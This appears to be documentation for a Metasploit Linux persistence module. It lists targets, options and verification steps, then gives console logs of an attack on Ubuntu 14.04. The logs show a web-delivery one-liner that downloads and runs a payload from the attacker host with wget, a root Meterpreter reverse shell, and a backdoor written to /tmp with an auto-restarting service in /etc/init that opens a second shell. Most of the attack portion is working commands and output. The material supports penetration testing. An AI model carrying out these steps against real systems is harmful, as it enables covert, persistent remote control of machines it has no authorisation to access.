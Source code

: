 ## Vulnerable Application

This module will create a service on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS 6
* Fedora >= 9, < 15
* Ubuntu >= 9.10, <= 14.10

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create. If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used. If not chosen, a random one is created.

### RESTART_LIMIT

The number of times to restart the service. If using a threaded payload (fetch), this is how many shells you may get. Defaults to 3

## INIT_FOLDER

Init folder location. Defaults to `auto`. Choices are: 
`auto` which determines the folder automatically. `init` for `/etc/init` and `init.d` for `/etc/init.d`

## Scenarios

### Ubuntu 14.04

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO HvGO7GyB --no-check-certificate http://111.111.1.111:8181/l; chmod +x HvGO7GyB; ./HvGO7GyB& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:52092) at 2025-02-16 10:52:49 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_upstart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/init_upstart) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/home/ubuntu) > sysinfo
Computer     : Ubuntu14.04
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 1)(/home/ubuntu) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_upstart) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is upstart based
[*] Writing backdoor to /tmp//GXhkVaF
[*] Writing '/tmp//GXhkVaF' (250 bytes) ...
[*] Writing service: /etc/init/kKxVjJjUUOVq.conf
[*] Starting service
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/Ubuntu14.04_20250216.5324/Ubuntu14.04_20250216.5324.rc
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53847) at 2025-02-16 10:53:24 -0500
```